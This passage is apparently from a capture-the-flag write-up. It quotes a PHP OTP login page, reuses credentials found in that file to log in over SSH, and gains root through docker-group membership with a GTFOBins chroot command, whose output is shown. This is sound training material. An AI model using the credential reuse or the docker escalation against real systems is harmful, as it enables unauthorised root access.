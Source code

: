 ~~~php
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
~~~

This file reveals a username and a base64 encoded password:
* Username: Anurodh
* Password: !d0ntKn0wmYp@ssw0rd

I tried these creds to connect via ssh and they worked.

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `id` and I'm in a docker group. I confirmed this by running `docker images`:

~~~
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
anurodh@ubuntu:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        17 months ago       5.57MB
hello-world         latest              bf756fb1ae65        22 months ago       13.3kB
~~~

I looked up [GTFOBins](https://gtfobins.github.io/) and found a command that can possibly gain us the root access. I tried it and it worked:

~~~
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
~~~

